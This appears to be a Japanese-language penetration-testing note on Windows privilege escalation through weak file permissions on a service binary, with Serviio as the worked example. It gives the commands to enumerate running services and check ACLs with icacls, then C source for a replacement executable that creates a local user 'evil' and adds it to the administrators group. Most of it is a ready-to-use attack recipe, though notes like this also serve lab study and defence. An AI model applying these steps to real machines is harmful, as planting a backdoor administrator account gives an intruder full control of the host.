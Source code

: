実行中のサービスの確認

```cmd
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```





### Serviioサービスでのケーススタディ

NT権限で実行されるサービスの安全でないファイルパーミッションを悪用する方法

1. 攻撃対象ホストのWin32サービスを列挙する

```powershell
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}

・・・
Serviio                      Running C:\Program Files\Serviio\bin\ServiioService.exe
```

※ユーザがダウンロードしたようなexeファイルがないかを確認する。特に`ProgramFIles`配下はユーザダウンロードしたアプリが入るので調査の価値あり

2. SYSTEM特権で実行されていることの確認

   ```cmd
   sc qc <Service Name>
   ```

3. icaclsを使って、対象サービスのパーミッションを列挙

```cmd
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
```

権限の見方は以下

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| dM   | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

* 置き換え用のexeファイルを作成する

  ```c
  #include <stdlib.h>
  
  int main ()
  {
    int i;
    
    i = system ("net user evil Ev!lpass /add");
    i = system ("net localgroup administrators evil /add");
    
    return 0;
  }
  ```
